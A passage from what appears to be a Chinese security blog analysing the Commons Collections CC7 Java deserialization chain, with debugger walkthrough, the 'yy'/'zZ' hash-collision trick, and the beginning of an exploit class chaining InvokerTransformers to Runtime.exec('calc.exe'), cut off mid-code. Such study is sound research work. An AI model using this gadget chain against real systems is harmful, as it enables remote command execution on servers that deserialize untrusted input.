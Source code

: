 ```java
    }
}
```

在Hashtable的reconstitutionPut处下断点，看是怎么走到这里的：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231217141209.png)

在readObject的第一次for循环里，reconstitutionPut中的tab此时为空，没有走到equals。

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231217142649.png)

注意这一次循环虽然没有进入for但是后面往tab里存了LazyMap1。

第二次循环时，成功进入：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231217143505.png)

进入到判断中，要经过 (e.hash == hash) 判断为真才能走到我们想要的 e.key.equal() 方法中。e.hash是LazyMap1的hash值，而lazyMap1 的 hash 值就是 `"yy".hashCode`，在 java 中有一个小 bug："yy".hashCode() == "zZ".hashCode()。`yy` 和 `zZ` 由 `hashCode()` 计算出来的值是一样的。所以这里我们需要将 map 中 `put()` 的值设置为 `yy` 和 `zZ`，才能走到我们想要的 `e.key.equal()` 方法中。

e.key.equals(key)即LazyMap1.equals(LazyMap2)。

又因为LazyMap里没有这个equals方法，所以他会去找他父类，他的父类为AbstractMapDecorator：

![](https://picgo-1300397932.cos.ap-nanjing.myqcloud.com/picgo/20231217155130.png)

在调用完 HashTable.put() 之后，还需要在 map2 中 remove() 掉 yy的原因：因为 Hashtable.put() 实际上也会调用到 equals() 方法。当调用完 equals() 方法后，LazyMap2 的 key 中就会增加一个 yy 键。

这就不能满足 hash 碰撞了，构造序列化链的时候是满足的，但是构造完成之后就不满足了，那么经过对方服务器反序列化也不能满足 hash 碰撞了，也就不会执行系统命令了，所以就在构造完序列化链之后手动删除这多出来的一组键值对。

最终exp：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.AbstractMapDecorator;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.AbstractMap;
import java.util.HashMap;
import java.util.Hashtable;
import java.util.Map;

public class CC7_8u65 {
    public static void main(String[] args) throws Exception{
        Transformer fakeTransformers = new ChainedTransformer (new Transformer[]{});
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class}, new String[] { "calc.exe" }),
        };

```